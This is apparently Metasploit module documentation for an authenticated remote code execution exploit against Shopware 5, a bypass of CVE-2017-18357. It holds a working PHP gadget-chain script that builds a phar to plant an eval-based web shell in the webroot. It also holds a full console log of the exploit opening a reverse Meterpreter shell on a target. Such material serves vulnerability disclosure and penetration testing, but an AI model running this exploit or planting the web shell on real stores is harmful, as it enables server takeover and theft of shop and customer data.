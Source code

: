
## Vulnerable Application

Shopware 5 is the next generation of open source e-commerce software made in Germany. Based on bleeding edge technologies like Symfony 3, Doctrine 2 & Zend Framework Shopware comes as the perfect platform for your next e-commerce project. Furthermore Shopware 5 provides an event-driven plugin system and an advanced hook system, giving you the ability to customize every part of the platform..

In the createInstanceFromNamedArguments method, a PHP object instantiation vulnerability was discovered by [@KarimOuerghemmi](https://twitter.com/KarimOuerghemmi) of RIPS who rated the bug as a CVSS 3.6 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N) due to the ability of leveraging an XXE primitive. Later on, I bypassed the whitelist patch and found an RCE primitive via PHP object injection. Note that authentication is required to exploit this vulnerability.

This vulnerability is a bypass for CVE-2017-18357 and was tested on Shopware git branches 5.6, 5.5, 5.4, 5.3.

The following is the exact setup I used to test and analyze the vulnerability:

- Debian GNU/Linux 9 (stretch) x64
- MariaDB latest
- Apache2 w/ mod rewrite / PHP 7.2.15 w/ zip, gd, ctype, curl, dom, hash, iconv, json, session, mbstring, simplexml, xml, pdo_mysql and fileinfo

For installation instructions, please refer to the [Shopware installation guide](https://github.com/shopware/shopware#installation-via-git).

### Notes

The recommended CVSS score is 7.5 (AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N).

### POP Chain

In order to pivot from an object instantiation bug to a object injection primitive, we need something worth while deserializing:

```php
<?php

namespace GuzzleHttp\Cookie;

// pop chain
interface ToArrayInterface {}

class SetCookie implements ToArrayInterface {
    private $data;

    public function __construct(array $data = []){
        $this->data = $data;
    }
}

class CookieJar implements ToArrayInterface {
    private $cookies;

    public function setCookie(SetCookie $cookie){
        $this->cookies = array($cookie);
    }
}

class FileCookieJar extends CookieJar {
    private $filename;

    public function __construct($bd_file){
        $this->filename = $bd_file;
        $this->setCookie(new SetCookie(array(
            "Value" => '<?php eval(base64_decode($_SERVER[HTTP_SI])); ?>',
            "Expires" => true,
            "Discard" => false,
        )));
    }
}

$phar = new \Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'test');
$phar->setStub('<?php __HALT_COMPILER(); ? >');
$o = new FileCookieJar("/var/www/html/media/image/si.php");
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```

## Scenarios

```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/shopware.rc 
[*] Processing scripts/shopware.rc for ERB directives.
resource (scripts/shopware.rc)> use exploit/multi/http/shopware_createinstancefromnamedarguments_rce
resource (scripts/shopware.rc)> set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
resource (scripts/shopware.rc)> set LHOST 192.168.23.1
LHOST => 192.168.23.1
resource (scripts/shopware.rc)> set RHOSTS 192.168.23.164
RHOSTS => 192.168.23.164
resource (scripts/shopware.rc)> set RPORT 8080
RPORT => 8080
resource (scripts/shopware.rc)> check
[+] 192.168.23.164:8080 - The target is vulnerable.
resource (scripts/shopware.rc)> exploit
[*] Started reverse TCP handler on 192.168.23.1:4444 
[+] Stage 1 - logged in with demo: SHOPWAREBACKEND=lpmck6d7nrh23ki2fsgeopci3p;
[+] Stage 2 - leaked the webroot: /var/www/html
[+] Stage 3 - leaked the CSRF token: SRJELMCxJfEr2RiMlqS8xmOdidI5Hr
[+] Stage 4 - generated our phar
[+] Stage 5 - uploaded phar
[+] Stage 6 - leaked phar location: media/image/6b/7e/0c/eiuzuoii.jpg
[+] Stage 7 - triggered object instantiation!
[*] Sending stage (38247 bytes) to 192.168.23.174
[*] Meterpreter session 1 opened (192.168.23.1:4444 -> 192.168.23.174:34190) at 2019-05-09 21:11:50 -0500
[+] Deleted rguktpcw.php
[+] Deleted image/6b/7e/0c/eiuzuoii.jpg

meterpreter > sysinfo
Computer    : 45835d649528
OS          : Linux 45835d649528 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64
Meterpreter : php/linux
meterpreter > 
```

